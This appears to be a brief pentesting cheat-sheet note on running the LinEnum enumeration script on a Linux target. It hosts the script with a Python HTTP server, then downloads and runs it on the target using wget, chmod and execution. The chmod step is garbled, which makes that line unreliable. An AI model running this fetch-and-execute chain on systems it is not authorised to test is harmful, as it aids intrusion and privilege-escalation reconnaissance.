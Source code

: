 
Linux Enumeration 

get the file https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
host it `python3 -m http.server 9000`
wget it `wget <localip>:9000/linenum.sh`
chmod it `chmod +x` \ `chmod 400 linenum.sh`
run it `./linenum.sh`

